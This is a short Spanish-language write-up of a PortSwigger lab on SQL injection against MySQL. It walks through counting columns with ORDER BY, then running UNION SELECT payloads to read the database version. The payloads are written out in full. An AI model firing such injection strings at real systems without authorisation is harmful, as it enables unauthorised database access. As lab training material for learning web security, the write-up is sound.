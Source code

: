 ```yaml
---
title: SQL injection attack, querying the database type and version on MySQL and Microsoft - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


Ahora enumeraremos la versión de la base de datos de MySQL

![20240802102008.png](20240802102008.png)

Para ello enumeramos el total de columnas que devuelve la consulta

```c
'ORDER BY 2--+
```

```c
'UNION SELECT null,null--+
```

Luego de tener el numero de consulta podemos ayudarnos de [PayloadsAllTheThings SQL Injection MySQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-default-databases)

Y haciendo la siguiente consulta podemos obtener la versión de la base de datos

```c
UNION SELECT null,concat(version())--+
```

![20240802103647.png](20240802103647.png)
